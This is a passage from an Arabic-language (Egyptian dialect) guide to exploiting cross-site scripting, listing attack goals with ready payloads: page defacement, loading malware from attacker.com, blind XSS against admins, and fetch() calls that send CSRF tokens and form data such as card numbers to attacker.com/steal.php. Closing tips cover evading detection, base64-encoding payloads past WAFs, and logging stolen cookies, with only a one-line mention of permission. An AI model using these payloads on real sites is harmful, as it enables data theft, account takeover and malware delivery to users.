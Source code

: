 4. **تخريب الموقع (Defacement)**:
   - **الهدف**: تغيير شكل الموقع.
   - **البايلود**:
     ```html
     <script>
     document.body.innerHTML = '<h1>Hacked by Attacker!</h1>';
     </script>
     ```
   - **التأثير**: ضرر بسمعة الموقع.

5. **توزيع مالوير (Malware Delivery)**:
   - **الهدف**: تحميل سكربتات خبيثة.
   - **البايلود**:
     ```html
     <script src="attacker.com/malware.js"></script>
     ```
   - **التأثير**: إصابة جهاز اليوزر.

6. **Blind XSS للأدمن**:
   - **الهدف**: ضرب الأدمن أو المستخدمين المهمين.
   - **البايلود**:
     ```html
     <script src="attacker.com/log.js"></script>
     ```
   - **الإعداد**: استخدم kxss مع أدوات زي `gau` عشان تلاقي فورمات تحقن فيها.
   - **التأثير**: هجوم على الأدمن لما يشوف اللوج.

7. **سرقة توكن CSRF**:
   - **الهدف**: سرقة توكن CSRF عشان تعمل أوامر.
   - **البايلود**:
     ```html
     <script>
     fetch('attacker.com/steal.php?token=' + document.querySelector('input[name="csrf_token"]').value);
     </script>
     ```
   - **التأثير**: تنفيذ أوامر زي تغيير الباسورد.

8. **سرقة بيانات الـDOM**:
   - **الهدف**: سحب بيانات من الفورمات.
   - **البايلود**:
     ```html
     <script>
     let data = document.forms[0].elements[0].value;
     fetch('attacker.com/steal.php?data=' + data);
     </script>
     ```
   - **التأثير**: سرقة بيانات زي الكريدت كارد.

**نصايح عملية للاستغلال**:
- **اختبار بحذر**: استخدم بايلودس خفيفة زي `<img src=x onerror=alert(1)>` عشان متتكشفش.
- **تشفير البايلودس**: جرب تشفير البايلود (مثل base64) يدويًا لو في WAF.
- **دمج مع أدوات**: استخدم kxss مع `waybackurls` أو `gau` لجمع روابط، وBurp Suite لتحليل الطلبات.
- **تسجيل البيانات**: اعمل سيرفر يسجل الكوكيز أو البيانات اللي بتسرقها.
- **أخلاقيات**: لازم يكون عندك إذن، وتبلغ عن الثغرات بشكل مسؤول.
